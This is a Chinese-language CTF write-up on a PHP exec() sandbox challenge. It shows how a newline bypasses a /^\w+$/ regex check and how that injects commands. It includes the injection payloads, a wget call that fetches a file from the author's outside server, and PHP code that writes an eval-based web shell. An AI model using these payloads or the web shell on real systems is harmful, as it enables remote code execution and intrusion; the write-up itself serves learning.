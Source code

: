 * implode() 函数返回由数组元素组合成的字符串。
* `^`  匹配输入字符串的开始位置。如果设置了 RegExp 对象的 Multiline 属性，^ 也匹配 '\n' 或 '\r' 之后的位置.
* `$`   匹配输入字符串的结束位置。如果设置了RegExp 对象的 Multiline 属性，$ 也匹配 '\n' 或 '\r' 之前的位置.
* `\w` 	 匹配字母、数字、下划线。等价于'[A-Za-z0-9_]'。

![dBIqjs.png](https://s1.ax1x.com/2020/08/24/dBIqjs.png)

题目环境设置，在源码所在文件夹先创建一个sandbox文件夹，并都赋予777权限，

然后根据代码逻辑是为每一个客户端创建一个sandbox/clientip的目录然后通过正则表达式检测所传进来的参数值args，即要求所有的参数都只能为数字和字母。

而代码最后行一行`/bin/orange`最终发现只是`/bin/true`的软链接，没有任何的作用属于干扰项.但是我这里并没有这个东西，但是并不影响。


其实这个问题是正则表达式的一个trick。`/^\w+$\`中的`$`当遇到一个字符串的结尾是`换行符`时还是可以匹配的。
利用这个特性，就可以绕过前面的`preg_match()`检查，同时多出的换行符还可以在`exec()`函数中执行。

进行简单的测试,构造参数`?args[]=xxx%0a&args[]=touch&args[]=test`,访问

	ip/sandbox/自己ip/test

可以访问，说明创建成功，(本来想写入数据的，但是正则限制了只能字母数字下划线。。。)

这时exec执行的命令是

	/bin/orange xxx
	touch test

我们的最终目的是写入shell.

如果我们想反弹shell,就会用到wget，但是若访问的网址里没有文件名，就会以 index.html 名存，所以只能访问ip（变为整数型的IP），默认保存为`index.html`,而且想要使用 `sh` 执行的时候又不能参数带点。（正则限制）。curl 反弹shell也一样。

所以利用另外的思路。

* **1. 下载文件**


若访问的网址里没有文件名，就会以 index.html 文件名存，

尝试一下。。。

在公网服务器 `ip/index.html`

```
<?php
file_put_contents('shell.php', '
<?php
header("Content-Type: text/plain");
print eval($_POST["cmd"]);
?>
');
```

payliad:

	?args[]=xxx%0a&args[]=wget&args[]=20673xx933

![wVBGEq.png](https://s1.ax1x.com/2020/09/05/wVBGEq.png)

wget下载并保存为`index.html`文件，但是可以明显看到下载到了文件，而且index.html的内容是原内容，php代码并没有被执行。
